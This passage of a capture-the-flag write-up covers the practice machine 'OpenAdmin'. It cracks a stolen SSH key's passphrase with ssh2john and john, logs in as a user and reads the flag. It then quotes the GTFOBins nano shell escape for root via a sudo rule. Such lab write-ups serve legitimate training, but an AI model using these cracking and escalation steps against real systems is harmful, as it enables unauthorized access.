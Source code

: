 After getting the key we of course try copying it to our box and ssh as joanna but it asks for a passphrase and we dont have one so we must try and get one.

We use ssh2john.py to convert the ssh key to a hash so that we can try and extract a passphrase from it using john.
`./ssh2john.py id_rsa > hash.txt`
```bash
kali@kali:~/boxes/openadmin$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:05 DONE (2020-06-13 04:54) 0.1672g/s 2398Kp/s 2398Kc/s 2398KC/sa6_123..*7¡Vamos!
Session completed
```
So we now have the password `bloodninjas`.

We give the rsa file appropriate permissions with `chmod 400 id_rsa` and then we ssh into the box as joanna and read our user flag.

```bash
kali@kali:~/boxes/openadmin# ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 

joanna@openadmin:~$ cat user.txt
c9b2cf07d[...]
```

# ROOT

We run `sudo -l` as always when we are trying to priv esc to see if we can run anything as sudo.
```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

In fact we can run something, we can use the text editor nano as root on teh file /opt/priv

We go on https://gtfobins.github.io/gtfobins/nano/ and read teh section on shell.
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
There are two ways of doing it from here.
